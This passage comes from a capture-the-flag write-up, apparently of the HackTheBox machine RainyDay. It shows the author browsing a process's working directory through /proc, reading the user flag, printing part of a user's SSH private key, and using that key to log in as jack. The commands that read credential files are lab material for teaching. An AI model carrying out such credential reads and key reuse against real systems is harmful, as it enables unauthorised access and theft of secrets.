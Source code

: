     
    
    /proc/1195 $ ls -la cwd/
    total 36
    drwxr-x---    4 1000     1000          4096 Feb 14 18:52 .
    drwxr-xr-x    4 root     root          4096 Sep 29 13:47 ..
    lrwxrwxrwx    1 root     root             9 Sep 29 12:16 .bash_history -> /dev/null
    -rw-r--r--    1 1000     1000           220 Jan  6  2022 .bash_logout
    -rw-r--r--    1 1000     1000          3771 Jan  6  2022 .bashrc
    drwx------    2 1000     1000          4096 Feb 10 22:44 .cache
    -rw-r--r--    1 1000     1000           807 Jan  6  2022 .profile
    drwx------    2 1000     1000          4096 Sep 29 13:47 .ssh
    -rw-------    1 1000     1000          1423 Feb 14 18:52 .viminfo
    -rw-r-----    1 root     1000            33 Feb  9 22:11 user.txt
    

And even read `user.txt`:

    
    
    /proc/1195 $ cat cwd/user.txt
    8ad82817************************
    

There’s also a key in `.ssh`:

    
    
    /proc/1195 $ ls cwd/.ssh
    authorized_keys  id_rsa           known_hosts
    /proc/1195 $ cat cwd/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA7Ce/LAvrYP84rAa7QU51Y+HxWRC5qmmVX4wwiCuQlDqz73uvRkXq
    qdDbDtTCnJUVwNJIFr4wIMrXAOvEp0PTaUY5xyk3KW4x9S1Gqu8sV1rft3Fb7rY1RxzUow
    SjS+Ew+ws4cpAdl/BvrCrw9WFwEq7QcskUCON145N06NJqPgqJ7Z15Z63NMbKWRhvIoPRO
    JDhAaulvxjKdJr7AqKAnt+pIJYDkDeAfYuPYghJN/neeRPan3ue3iExiLdk7OA/8PkEVF0
    ...[snip]...
    

It turns out this same vulnerability works in the original container, allowing
for skipping of the file read. I’ll look at why in Beyond Root.

### SSH

That key works to get a SSH connection as jack on the host:

    
    
    oxdf@hacky$ ssh -i ~/keys/rainyday-jack jack@rainycloud.htb 
    Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-50-generic x86_64)
    ...[snip]...
    jack@rainyday:~$
    

## Shell as jack_adm

### Enumeration
